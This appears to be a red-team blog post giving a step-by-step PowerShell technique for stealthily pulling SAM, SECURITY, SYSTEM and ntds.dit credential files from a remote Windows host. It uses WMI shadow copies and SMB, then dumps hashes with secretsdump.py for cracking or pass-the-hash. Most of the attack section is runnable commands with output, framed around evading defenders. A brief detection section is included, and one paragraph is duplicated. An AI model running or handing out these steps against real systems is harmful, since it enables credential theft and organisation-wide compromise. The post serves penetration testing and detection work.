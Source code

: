 ```yaml
---
layout: post
title:  "Extracting credentials from a remote Windows system - Living off the Land"
date:   2020-05-26 09:00:00
categories: living-off-the-land windows credentials
permalink: /blog/extracting-credentials-from-remote-windows-system
---
```


Recently we performed a red teaming engagement where we wanted to dump the credentials from a remote host. We got the credentials of a user which has administrative privileges on the victim host and wanted to get more credentials from that host. Because we felt that the blue team was closely observing the environment this needed to be done in a stealthy manner and preferably only involving native Windows tooling. That is when we came up with the following approach in order to obtain a remote system's `SYSTEM`, `SECURITY` and `SAM` files from `%SystemRoot%\System32\Config` making use of WMI and SMB. This approach can also be used to obtain the `ntds.dit` file from a Domain Controller in order to obtain the credentials of the complete organization.

# Conditions
In this article we will first use our attacker Windows machine to make a shadow copy on the remote system using WMI and then use SMB to download the credential files from the shadow copy. Assumptions are that ports 445/TCP (SMB) _and_ one of 135/TCP (DCOM), 5985/TCP (WinRM) or 5986/TCP (WinRM over SSL) are accessible, and we have administrative access to the victim machine. We will be using DCOM which uses port 135/TCP to communicate. Moreover, the current PowerShell instance is running as a user which has administrative access on the victim host (DC01.mydomain.local) obtain the local credentials.

# Small introduction to WMI
WMI stands for Windows Management Instrumentation and can be used to read out management information from Windows and perform actions on a variety of components which provide a WMI interface. WMI can be accessed locally using for example PowerShell, VBScript, wmic.exe and COM, while remotely WMI can be accessed using WinRM and DCOM.

# Session establishment
In case you are executing this attack from a machine outside of the domain, or whenever you need to use different credentials to authenticate to the victim host, use the `runas.exe` tool to launch your PowerShell with credentials which can be used to authenticate. Now whenever this PowerShell instance is requested to authenticate on the network, it will use the credentials as provided to the `runas.exe` tool. Alternatively the `-Credential` parameter can be used for the `New-CimSession` cmdlet.
```
runas.exe /netonly /user:MyDomain\MyUser powershell.exe
```
After launching PowerShell we start with initiating a new Cim session with the remote host over DCOM and storing this in the `$s` variable. In case you want to use WinRM instead, omit the `-SessionOption` parameter of the `New-CimSession` cmdlet.
```powershell
PS C:\> $h = 'DC01.mydomain.local'
PS C:\> $so = New-CimSessionOption -Protocol Dcom
PS C:\> $s = New-CimSession -ComputerName $h -SessionOption $so
```

# Create shadow copy
Once the session is established we invoke the `Create` function of the `Win32_ShadowCopy` WMI class [1] providing the `Volume` parameter to create a shadow copy of the Windows installation drive which contains the files we want to obtain. Once executed, The `ReturnValue` of `0` shows that creation of the shadow copy was successful. Based on the `ShadowID` we fetch all details of the shadow copy. An alternative to creating a new shadow copy would be to check if there are already any (recent) shadow copies, in which case you can simply use that shadow copy and proceed with the next steps. This can be done by executing the `Get-CimInstance` cmdlet below without the `-Filter` parameter.

```powershell
PS C:\> $r = Invoke-CimMethod -ClassName Win32_ShadowCopy -MethodName Create -Arguments @{Volume='C:\'} -CimSession $s
PS C:\> $r
 
                            ReturnValue ShadowID                                PSComputerName
                            ----------- --------                                --------------
                                      0 {B15008D8-0C63-468C-AED7-ED4DB0CFD082}  DC01.mydomain.local
 
 
PS C:\> $c = Get-CimInstance -ClassName Win32_ShadowCopy -CimSession $s -Filter "ID=`"$($r.ShadowID)`""
PS C:\> $c
 
 
Caption            :
Description        :
InstallDate        : 4/19/2020 9:34:01 PM
Name               :
Status             :
ClientAccessible   : True
Count              : 1
DeviceObject       : \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy6
Differential       : True
ExposedLocally     : False
ExposedName        :
ExposedPath        :
ExposedRemotely    : False
HardwareAssisted   : False
ID                 : {B15008D8-0C63-468C-AED7-ED4DB0CFD082}
Imported           : False
NoAutoRelease      : True
NotSurfaced        : False
NoWriters          : True
OriginatingMachine : DC01.mydomain.local
Persistent         : True
Plex               : False
ProviderID         : {B5946137-7B9F-4925-AF80-51ABD60B20D5}
ServiceMachine     : DC01.mydomain.local
SetID              : {083BBDBA-4517-45A2-A62E-3F52020BC47C}
State              : 12
Transportable      : False
VolumeName         : \\?\Volume{482bdb36-8a72-40a4-9b12-912d2783ef39}\
PSComputerName     : DC01.mydomain.local
```

# Obtain credential files
We want to copy the files from the SMB share, not simply from the `C$` share, but from the specific shadow copy we created. In Windows Explorer shadow copies are also known as Previous Versions which can be listed by opening the properties of a certain folder and then navigating to the Previous Versions tab. These Previous Versions are also accessible from the command line which is a date in a certain format prefixed with the @-symbol. Based on the shadow copy which is stored in the `$c` variable, we will compile the path from which to copy the files in the following PowerShell line.
```powershell
PS C:\> $p = '\\{0}\C$\{1}\Windows\System32\config' -f $h,$c.InstallDate.ToUniversalTime().ToString("'@GMT-'yyyy.MM.dd-HH.mm.ss")
PS C:\> $p
\\DC01.mydomain.local\C$\@GMT-2020.04.19-19.34.01\Windows\System32\config
```
After compiling the path we will copy the required files using the copy command to our local disk (in this case `C:\tmp`). Because creating the shadow copy might take a while when attempting to copy the files from the shadow copy path too quickly, it will result in an error that the path does not exist. In that case wait a bit and try again. In case you want to obtain the password hashes from a Domain Controller, this approach can also be used to remotely obtain the `ntds.dit` file from the (by default) `%SystemRoot%\NTDS` folder.
```powershell
PS C:\> copy $p\SYSTEM C:\tmp
PS C:\> copy $p\SECURITY C:\tmp
PS C:\> copy $p\SAM C:\tmp
```
After we successfully obtained the files containing the credentials we will perform the cleanup of shadow copy we created and close the connection to the victim host.
```powershell
PS C:\> $c | Remove-CimInstance
PS C:\> $s | Remove-CimSession
```

# Obtain and crack hashes
With the SYSTEM, SECURITY and SAM files or SYSTEM and NTDS.dit file now in our C:\tmp folder we can use our favorite tool to obtain the hashes. An example of such tool is secretsdump.py from Impacket [2].With the SYSTEM, SECURITY and SAM files or SYSTEM and NTDS.dit file now in our C:\tmp folder we can use our favorite tool to obtain the hashes. An example of such tool is secretsdump.py from Impacket [2].

## SAM
```bash
secretsdump.py -system SYSTEM -security SECURITY -sam SAM LOCAL
```

## ntds.dit
```bash
secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```
Subsequently the resulting hashes can be cracked with tools like John or Hashcat, or used in a pass the hash attack.

# Detection and artifacts
* Event ID 7036 on the victim host stating that the Microsoft Software Shadow Copy Provider service has been started
* Anomalous RPC/DCOM and SMB network connections between hosts which usually do not communicate

# Closing thoughts
Because the blue team is increasingly monitoring activity on both the network as well as on the machines itself, the red team is increasingly pushed towards using Windows native administrative tooling to stay under the radar. This attack shows that using WMI and SMB you are perfectly able to do that from PowerShell which will blend in with the management activities system administrators are performing on the network and systems.

# References
1. [Microsoft Docs - Create method of the Win32_ShadowCopy class](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/vsswmi/create-method-in-class-win32-shadowcopy)
2. [secretsdump.py in the Impacket library repository](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)

# MITRE ATT&CK® references
* [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047/)
* [Windows Remote Management](https://attack.mitre.org/techniques/T1028/)
* [Remote File Copy](https://attack.mitre.org/techniques/T1105/)
* [Windows Admin Shares](https://attack.mitre.org/techniques/T1077/)
* Also related: [Inhibit System Recovery](https://attack.mitre.org/techniques/T1490/)


